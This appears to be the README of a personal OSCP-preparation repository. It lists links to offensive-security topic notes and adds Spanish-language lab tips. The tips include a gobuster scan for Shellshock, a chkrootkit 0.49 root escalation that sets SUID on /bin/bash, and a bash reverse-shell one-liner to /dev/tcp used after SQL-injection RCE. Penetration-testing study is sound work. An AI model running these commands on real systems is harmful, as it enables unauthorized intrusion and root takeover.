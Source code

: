 # OSCP preparation

## List
- [**Windows Active Directory**](./winad.md)
- [**Shell Management**](./shellMGT.md)
- [**General enumeration**](./enum.md)
- [**Engagement Structure**](https://academy.hackthebox.com/module/39/section/384)
- [**File transfers**](./fileTransfer.md)
- [**Metasploit tricks**](./msf.md)
- [**Pivoting**](./pivoting.md)
- [**Cross-Site Scripting**](./xss.md)
- [**SQL Injection**](./sqli.md)
- [**Local File Inclusion & Path Traversal**](./LFI.md)
- [**Arbitrary File Upload**](./arbitraryFileUpload.md)
- [**Command Injection**](./commandInjection.md)
- [**Other web attacks**](./otherWebAttacks.md)
- [**Privilege Escalation**](./privEsc.md)
- [**Windows Privilege Escalation**](./winPrivEsc.md)
- [**Reporting**](./reporting.md)
- [**Documents, Office, LibreOffice, macros attacks**](./office.md)
- [**Cookie Extraction**](./cookieExtraction.md)
- [**Buffer Overflow**](./bufferOverflow.md)

## Extras

### Maquina centOS una privesc rara
- https://seclists.org/fulldisclosure/2019/Apr/24


### En una maquina que pwnee que tenía la vuln shellshock, fue clave la enumeración para poder explotar la misma
```
❯ gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 400 -x cgi,php,sh --add-slash
```

#### el -x sh me dió la enumeración correcta

Sí encuentro el puerto 53 es conveniente seguir la siguiente guía de enumeración
https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns

### Vulnerabilidad en chkrootkit versión 0.49. Para evitar usar metasploit, sirve chequear:
[https://www.exploit-db.com/exploits/33899](https://www.exploit-db.com/exploits/33899)

```
cat /etc/cron.daily

/usr/bin/chkrootkit
ls -la /usr/bin/chkrootkit     // Do we have SUID?
chkrootkit -V
echo "#!/bin/bash" > /tmp/update
echo "chmod +s /bin/bash" >> /tmp/update
Wait a While ...
/bin/bash -p
whoami
```

### Problemas para reverse shell dentro de sqli

Hay veces que cuando puedo obtener RCE mediante una sqli porque tengo acceso de escritura con el user de la db que maneja la aplicación web no siempre me quiere ejecutar bien una revshell, pero con esto sí:

```
bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'
```

es el único que me vino funcionando en 2 maquinas de SQLI